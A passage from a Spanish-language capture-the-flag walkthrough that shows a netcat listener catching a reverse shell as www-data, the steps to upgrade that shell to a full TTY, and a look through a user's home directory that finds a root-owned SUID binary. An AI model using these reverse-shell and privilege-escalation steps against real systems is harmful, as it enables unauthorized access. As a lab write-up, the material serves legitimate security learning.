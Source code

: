Vemos la petición get, y si vemos netcat:

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.233.128] from (UNKNOWN) [192.168.233.129] 60212
bash: cannot set terminal process group (88930): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
www-data
```
Hemos ganado acceso al sistema, sin embargo, no tenemos privilegio alguno, vamos a tener que escalar.

## Escalada de privilegios

Antes de todo necesitamos una tty decente, asi que vamos a hacer lo siguiente:
- script /dev/null -c bash
- control + z
- stty ray -echo; fg
- reset xterm
- export TERM=xterm
- export SHELL=bash
- stty rows X columns Y (dependiendo de tu stty size)

Bien, con la consola lista vamos a escalar privilegios.

En primer lugar, revisamos todos los archivos de la web por si encontramos algo, pero no vamos a encontrar nada.

Vamos a dirigirnos a los directorios de los usuarios por si encontramos información:
```
bash-5.0$ cd /home
bash-5.0$ ls
darkhole  john
bash-5.0$ cd john/
bash-5.0$ ls
file.py  password  toto  user.txt
```

Vemos diferentes archivos dentro del directorio de **john**, vamos a ver los permisos:
```
bash-5.0$ ls -la
total 72
drwxrwxrwx 5 john john      4096 Feb 20 17:02 .
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      2139 Feb 20 17:00 .bash_history
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
drwxrwxr-x 3 john john      4096 Jul 17  2021 .local
-rw------- 1 john john        37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16  2021 .profile
drwxrwx--- 2 john www-data  4096 Jul 17  2021 .ssh
-rwxrwx--- 1 john john        43 Feb 20 17:02 file.py
-rwxrwx--- 1 john john         8 Jul 17  2021 password
-rwsr-xr-x 1 root root     16784 Jul 17  2021 toto
-rw-rw---- 1 john john        24 Jul 17  2021 user.txt
```
